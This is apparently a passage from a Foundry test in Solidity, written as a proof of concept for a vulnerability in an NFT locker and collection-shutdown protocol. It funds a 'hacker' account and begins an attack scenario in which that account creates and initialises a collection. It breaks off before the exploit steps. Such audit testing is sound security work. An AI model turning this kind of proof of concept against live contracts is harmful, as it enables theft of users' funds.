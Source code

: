 ```solidity
    UniswapImplementation uniswapImplementation;
    CollectionShutdown collectionShutdown;
    address payable public constant VALID_LOCKER_ADDRESS = payable(0x57D88D547641a626eC40242196F69754b25D2FCC);



    // Address that interacts
    address owner;
    address user1;
    address user2;
    address hacker;


    function setUp() public {
        owner = vm.addr(4);
        user1 = vm.addr(1);
        user2 = vm.addr(2);
        hacker = vm.addr(4);

        vm.deal(owner, 1000 ether);
        vm.deal(user1, 1000 ether);
        vm.deal(user2, 1000 ether);
        vm.deal(hacker, 1000 ether);


        //Deploy Contracts
        deployAllContracts();

        vm.prank(user1);
        WETH.deposit{value: 100 ether}();

        vm.prank(user2);
        WETH.deposit{value: 100 ether}();

        vm.prank(hacker);
        WETH.deposit{value: 100 ether}();

    }
    // ================= Listings.sol =====================


    function test_ListBeforeExecute()public{

        // Hacker creates a collection.
        vm.startPrank(hacker);

        address newCollectionToken = locker.createCollection(address(erc721a), "Mock", "MOCK", 0);

        uint256[] memory path = new uint256[](10);

        // Hacker approves 10 tokens to the locker contract to initialize the collection.
        for(uint i = 0; i < 10; i++){
            path[i] = i;
            erc721a.approve(address(locker), i);
        }

        WETH.approve(address(locker), 10 ether);


        // Hacker initialize the collection and send to locker 10 ERC721a. Hacker owns only one more out of the platform.
```